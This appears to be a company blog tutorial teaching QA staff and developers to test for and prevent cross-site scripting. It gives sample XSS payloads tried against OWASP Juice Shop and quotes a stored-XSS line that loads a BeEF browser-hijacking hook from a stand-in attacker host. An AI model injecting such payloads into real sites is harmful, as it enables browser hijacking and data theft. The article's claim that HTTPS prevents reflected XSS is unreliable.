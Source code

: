 I decided to write this article because despite XSS being a common and older vulnerability, many QA and developers know very little about it, what it really is, how to test for or fix it. Probably you've heard of XSS before, but don't really know much about it. You may be wondering what Cross-Site
Scripting is, why you should test for it, or why it's important. Don't worry, we will cover everything you need to know in this article. By the end, you will have a general understanding of XSS, how to check for it, and how to
prevent it. + 
In this article, we will address the following topics:

* What is XSS?
* Why do you need to test for XSS vulnerabilities?
* How to test for XSS?
* Prevention methods
* Summary

== What is XSS?

In short, XSS is a security vulnerability where an attacker injects their own
client-side scripts into a site.

Let's take a look at a typical case for an XSS vulnerability using the image below and discuss what we see on it.

._A visual representation of a typical XSS attack flow via email_
[caption='']
image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da1e179ca5c5487ce23_wIU_4DfFrUMKTwmIM7qoJSGOR9zFJT8xS0FXJz3_flyDEYSOWyN137EA2lJmuPI4s2Mw7daOOl_g0QfYvvJMZqQtWPvKwKyClFUjdyA3Bvc59tEEKDliYDnUABlaSQm-IVntwATa.png[]

. Here, we have a case where an attacker has modified a link with malicious content. As an example, we can say the link is for a video sharing site and has a keylogger attached to it. The attacker emails it to an unsuspecting victim with an intriguing title 'Cutest cat ever'.
. The victim opens the email and clicks the link.
. The user is redirected to the actual video sharing site, and probably to a cute cat video. What the user doesn't know is that a keylogger is being executed. Now anything the user types will be sent to an unknown attacker.
. The data from the keylogger is sent to the attacker.

Okay, so that's an interesting case for spam emails, but many people know not to select links from unknown senders today, right? Let's look at one more typical case.

._An example of a stored XSS attack flow._
[caption='']
image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da141480acf2ab8f9d4_ffCbT9ZWavqT3EnWuEmoblsHmGseY8uqtM8CndDGIgmdy-2oWNMFrfKu8fuAZNddYwzskMn1suqfaCkQeVepV1hrbDdT6hL50W5_EP1rfk4AGE6bV5vPJbz5aqhe3y4sJWuXTZ5J.png[]

. In this situation, an attacker posts a comment on a site (such as a forum or social media page) which
contains malicious code.
. The malicious code is saved to the site's database.
. Later, a user visits the infected page.
. The user's browser runs the malicious script.

XSS can be broken down into three main types: +
DOM-based XSS (common):

* Attack is executed as a result of modifying the DOM.
* Attacker modifies the client-side code.

Reflected XSS (most common):

* Attacker modifies the webpage HTTP request with malicious content.

Stored XSS (most severe):

* Attacker saves malicious content on the site's DB which can be run by other users.

For this article, we are going to focus on the basic flows for manual testing each type of XSS
vulnerability.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da25c702f8d7932f10a_4VQSX6wMY9roBktyIlD8TFERsNjpn-wDevjm5TMZQtCvpqXlOtm8qMaoaU0QKgcBQ8JwDL1xUL7IlTgx4BAz1CVLC0otC6MbX6PrSaY0DxDlJPupEO_uoPaB02gU2p0S3MP2_bW4.png[]

== Why do we need to test for XSS vulnerabilities?

Cross-site scripting is nothing new, yet it remains a very common security vulnerability. It consistently gets itself on the https://owasp.org/www-project-top-ten/[OWASP
Top 10 Web Application Security Risks^]. +
XSS attacks can be used to:

* Steal user data
* Escalate privileges
* Add a keylogger
* Hijack accounts
* Distribute a virus
* Change a site's layout
* Add a trojan login panel
* And many other client-side attacks

Potential costs of XSS vulnerabilities:

* Loss of money
* Loss of customers
* Reputation
* Loss of sales
* Data theft

The cost of an XSS vulnerability can be hard to gauge as it could be different for different sites. +
As an example, let's say we have an e-commerce store with an unprotected comments section for each product. An attacker leaves a comment with a malicious link to another product on the site. Now, any user who selects this link will execute the malicious code. If this code were a keylogger, then the users potentially give away their login to the site, their credit/debit card information, their address, and other personal information. Because users will now see the site as unsafe and possibly had their information or even money stolen, the potential costs here could be loss of reputation, loss of customers, data theft (for customers), loss of sales, and ultimately loss of money.

== How do we test for XSS vulnerabilities?

There are two ways to test for these risks, manually or with automated tools.

Testing manually can be very time-consuming, difficult, and somewhat unreliable. However, it's a good place to start, especially if you don't have access to the tools you need.

Automated tools are very useful in identifying possible vulnerabilities as well as testing browser hijacking. There are many tools available for this, but many of them are not free and can be quite expensive. Luckily, there are two free tools available which will cover your XSS testing needs:

* https://www.zaproxy.org/[OWASP ZAP^] (Zed Attack Proxy) - a free tool provided by OWASP. It has a combination of built-in tools and can be used for manual or automated testing.

* https://beefproject.com/[BeEF^] (Browser Exploitation Framework Project) - a free
pentesting tool which focuses on testing the web browser.

We also need to note that you should never run actually malicious code or code that you don't understand. Always use harmless code which you fully understand.

Now, let's proceed with learning how to test for each type of XSS vulnerability, as promised.

=== Testing for DOM-based XSS

Let's see how to test for DOM-based XSS by becoming the attacker. The first thing you need to do is look for an input field. This could be a comments section, search bar, or any place where the input is displayed after submission. Then, just type something that's expected for this field (i.e. a typical search or comment) and check the normal output. Next, make a series of submissions with different scripts attached and check the output against the original. It's best to start with something simple, like *<h1>* as it will tell you if the field allows special characters and runs the user's HTML. Repeat this process until you either find a vulnerability or are satisfied that the input isn't at risk. +
Let's take this one step further by breaking down each step while looking at an example. For this example, we decided to use an application provided by OWASP called OWASP Juice Shop. It is set up like a typical e-commerce site. +
*Step 1: Find an input field.*

Here we can see that there's a search bar, we will start there.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da269768da8652a4b39__rGoPEGzFyxyZfRxAPaAsAgFeer9ZjcXrmZQBXODWWNeRWCQBS7X6MaaQL6eoMNTZiAVh0BWZ-HmDJBSyu696jhvp20ybhR8cz35roiIbOu-Af-RIbTi2Wy4EXb_XyC4NpfpcpNM.png[]

*Step 2: Check the normal output of this field.* +
We'll make a simple search for "apple" and check the output.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da150972d7e426336cc_sWeKBHf3Sucw3O2yDL9Hz0LNZRp9xs9undm-ScSGZXJa9b4vMHOnYWq9NJM9rayLLzukqeRyLvqRLBa0wMFdVG3YCdgnRm5TNreMxir-OpzbZLcnSKN__GfJbj9ZUBdJLtlZumez.png[]

*Step 3: Try a simple HTML tag*. +
Now, we will slightly change our search to *<h1> apple*. This is a quick way to determine if an input needs further testing. If the output is modified, then there is a high probability that more complex scripts will run. That being said, a lack of change in the output doesn't mean that the input is safe.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da22add8d19a1319043_Z3CqftxBaSp5UAk4auW7R0_3SZPh54GMlwAX5deX21wuhB-VOQjn-p7vKfn33DKQwbyQ6g3RsDHqF7vx_EkA8x-nPnnkOX9epjEcmDLJj4xh3oh05cWtsV9z2RsHooALYKAcN_E3.png[]

Look at that! The output is different than before! This tells us that we definitely
need to spend more time testing this input. +
*Step 4: Try more complex scripts*.

Now that we have a good reason to continue testing this input, let's try again with another script. There are many scripts you could choose from, but I find that it's easier to use those which will produce an alert on the screen. That is why we will try *<script> alert("XSS")</script> apple*.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da1de3f7057cde5ffda_ipDUDgMKrmu9YCYviBAJg5qmOQIjC6CACi2s4pEtTrmRYGcN5TlgaNbCVzQ3k2msXX6skGxkn8v-bD7rfLsm1TBIkN7PlCCGuNwz3rp56i-XL44StyIyx_7EhMKzJlev6_3QKJrw.png[]

Ok, so that didn't work. But we can't give up so easily. Let's try another! +
*Repeat Step 4: Try another script*. +
This time we'll try *<img src="" onerror=alert('XSS')> apple*.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da2ef0245316890163b_cDFHUZwHZoaS-NMMRKBTJ8xfS5s7-4Hah3s-nW4ajFoIwcTMt1BS11ZHMHFnrK1pbXXb382dtcJoA-cT9pjUrNNezn5WKGf8Mb5FQPvIRVQj1gSO2QeGebJ5WvzWvjbtKKOiApAD.png[]

Woah! Notice how this time we were able to add a broken image to the page. That's great, but our alert still didn't appear. We need to keep trying. +
*Repeat Step 4: Try another script*.

Now we will try *<iframe src="javascript:alert(`xss`)"> apple*.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da2fa45d01b8d8eea65_gk8HsgxR5pkEkZPja5L00dmGwEV4bAImkUIXjBEUEg8csKO1p2z69xz3tJCrNzS5HPtND3DHTX0008HVwzM5YHZKjuacOWr1JmD8_DMmmAx_xXr_9OM5_P5-NTzQYDD4gcu-OZnk.png[]

Finally! We have injected an iframe into the DOM and successfully run the corresponding alert script.

If you look closely at the scripts we used, you'll notice that we used different combinations of single quotes, double quotes, and back-ticks.

<script> alert("XSS") </script>

<img src="" onerror=alert('XSS')>

<iframe src="javascript:alert(`xss`)">

This isn't just for fun, sometimes every detail matters, including font! That's why it's best to start small - you never know which characters will be accepted. If you want to try this for yourself, you can practice the same example on the https://owasp.org/www-project-juice-shop/[OWASP Juice Shop^] testing site.

=== Testing for reflected XSS

For reflected XSS, we need to find places where user input is reflected on the page. Next, test it's normal output. Then, slowly try to manipulate these variables (or even the URL itself) until you succeed or are satisfied that there isn't a vulnerability. +
Let's take a look at an example. +
*Step 1: Find an input field or URL variable which reflects user input. +
Step 2: Check the normal output.*

Here we have a simple site which welcomes the user with their name and displays a link.

._This example is provided by the https://owasp.org/www-project-web-security-testing-guide/[OWASP testing guide^]_.
[caption='']
image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da33bea2a7a56161e53_hxunvZOnEKcFVPiMzrLx-EBdYsyOYwtgCL70MhI3FnOw4ZFvuRnm6Sz4vittiPCOr0WzOV60dRycPJxvgls9NYs-GlUBFAbEKeCY-or9gEUKDgwP_ExOLwurHEN1gFpkXPKxy2nM.png[]

"We can see already that there's a variable (query parameter) in the HTTP request which is
displayed on the *page(user=MySmith)* - we will start by using this variable to attack the
page.

*Step 3: Try something simple.*

As with DOM XSS, start small and simple." +
*Step 4: Try something more complex.*

Now we'll try more complex scripts and check the output. For this example, we will modify the URL directly, rather than messing with the input field. We will replace *user=MrSmith" with "user=<script> alert(123)</script>*.

._This example is provided by the https://owasp.org/www-project-web-security-testing-guide/[OWASP     testing guide^]_.
[caption='']
image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f3a386d18ce2431beea9182_Screenshot%20(4).png[]

"Success! As you can see, the script was executed in the user's browser. We also want to
draw your attention to the fact that the original webpage looks normal - a user would have no idea they
executed malicious code if we weren't using an alert function.

=== Testing for stored XSS

The steps for testing stored XSS are pretty much the same as for DOM-based XSS. +
*Step 1: Find an input field.* +
*Step 2: Check the normal output of this field.* +
*Step 3: Try something simple. +
Step 4: Try more complex scripts, repeat.* +

In general, you should check:

* Any place where user input is saved to the DB (like user profiles, comments, file uploads, shopping
    carts)
* GET, POST, PUT requests
* The ability to manipulate the page's HTML
* The ability to store malicious content somewhere public
* The ability to replace the page's links

Let's take a look at one example of a test using the BeEF tool, which was provided by the https://owasp.org/www-project-web-security-testing-guide/[OWASP testing guide^]. A typical test scenario would be:

* Injecting a JavaScript hook which communicates to the attacker's browser exploitation framework (BeEF). Example BeEF Injection in index2.php can be:

email@test.com”><script src=http://attackersite/beef/hook/beefmagic.js.php></script>

* Waiting for the application user to view the vulnerable page where the stored input is displayed

* Control the application user's browser via the BeEF console

With the example above, an attacker could add a script to their own email on the webpage. This could possibly be done during registration or with updating a user profile. Then, any user who views a page, that runs this malicious code, is now a potential victim as their browsers can now be controlled by the attacker.

== How do we prevent or fix XSS vulnerabilities?

There are many different ways to prevent such vulnerabilities. You will need to choose based on your project and it's needs. The best defense is a combination of methods.

*Prevention methods*:

* *#1 rule: Don't trust your users!* Trusting users, even logged-in or admin users, leads to
many security vulnerabilities - just don't do it. What do I mean when I say not to trust the users? I mean that you should treat all fields as potential attack targets. Maybe there is a field or form that only an app admin can access - who is this admin? Do you know how secure their password is? You don't know - and there is always the possibility that this admin, or an attacker who stole the admin's login credentials, could place malicious code anywhere. So, protect all inputs and treat all users as a possible threat.

* *Enable a Content Security Policy (https://content-security-policy.com/[CSP^]) - an HTTP response header that works to reduce the risk of XSS vulnerabilities.
* *Use frameworks and/or libraries*. Many modern frameworks and libraries have built-in
    security to reduce XSS risks.
* https://en.wikipedia.org/wiki/Escape_character[*Escape*] *special characters* - replace them with something else which prevents the malicious code from running.
* *Encode data*
* *Filter data on input* to remove dangerous content before saving it to the database.
* https://wiki.sei.cmu.edu/confluence/display/java/Input+Validation+and+Data+Sanitization[*Sanitize*^] data (on input and output)* to ensure that the passed data meets security requirements
by means of removing, escaping, encoding, or replacing special characters. It's important to sanitize data on input to prevent saving malicious content to the database and on output to prevent malicious code execution in the browser.
* *Use HTTPS header instead of HTTP*. Hint: the 'S' means 'Secure'. This protection is
    excellent for preventing reflected XSS vulnerabilities.
* *Protect cookies with 'secure' and 'HTTPonly'.*
* *Use black lists or white lists.* It's better to use whitelisting because it's impossible
    to blacklist all unwanted content.
* And many other options... Here at Valor Software, we use a unique combination of protection methods for each project, based on needs, to ensure stable security for our customers.

It's important to use a combination of prevention methods to ensure your site is secure. Using only one or two methods isn't enough. For example, character escaping can be seen by the attacker, and with time they could find a way to bypass the escaping method. So, it's why you need a combination of protection methods on user input and output.

== Summary

Let's sum up everything.

XSS is a common and serious security vulnerability. We covered what XSS can be used to do, how XSS can harm a person, or business, and what the potential costs are. We took a look at the three main types of XSS vulnerabilities, how they work, and how to test for them.

General manual testing flow for various XSS vulnerabilities is:

. Find an input field.
. Check normal output.
. Check output with code - remembering to start small.
. Repeat with other codes until success or you're confident in the level of security.

We also discussed, and perhaps experienced, how manual security testing is very time-consuming, so it's best to use automated tools whenever possible. Finally, we reviewed XSS prevention methods and why the best protection is a combination of several methods. +
As promised, you should now have a general understanding of this vulnerability, how to test for it, and how to prevent it.






